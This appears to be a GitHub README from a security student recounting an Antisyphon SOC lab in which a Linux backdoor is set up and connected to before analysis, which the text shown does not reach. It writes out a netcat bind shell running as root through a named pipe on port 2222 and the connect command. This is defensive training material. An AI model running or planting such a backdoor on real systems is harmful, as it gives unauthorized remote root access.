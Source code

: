 <h1>Linux CLI Lab</h1>



<h2>Languages and Utilities Used</h2>

- <b>Linux</b> 


<h2>Environments Used </h2>

- <b>Ubuntu terminals</b> 
- <b>VM Ware</b>

<h2>Program walk-through:</h2>

<p align="left">
In this Antisyphon lab (part of their fantastic SOC Core skills course with John Strand), I was looking at a backdoor using the Linux CLI.

I used a large number of basic commands to get a better understanding of what the backdoor is and what it does.

For this lab I ran three different Ubuntu terminals.

The first was where we run the backdoor.

The second was where we connect to it.

The third was where we ran the analysis.

<br/>

<br />On the Linux terminal, I used sudo su - to get a root prompt. This was so we could have a backdoor running as root and a connection from a different user account on the system.

  <p align="left">
I next needed to create a fifo backpipe:
    mknod backpipe p
Next, let's start the backdoor with the following command:

/bin/bash  0<backpipe | nc -l 2222 1>backpipe

This was complicated for me but this basically created a backdoor listening on port 2222 of the linux system. 

I had to find the IP address of our linux system using ifconfig command:

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/ifconfig.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Then we connected via the command

 nc <whatever the ip address is here!> 2222


The following commands made sure it was working

ls

whoami

You can see below I was connected to the simple Linux backdoor as root, as it just dropped the cursor back to the left side of the screen.

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/Clipboard_2020-12-11-07-19-48.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Next I had to open another Ubuntu terminal to start the analysis. 


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
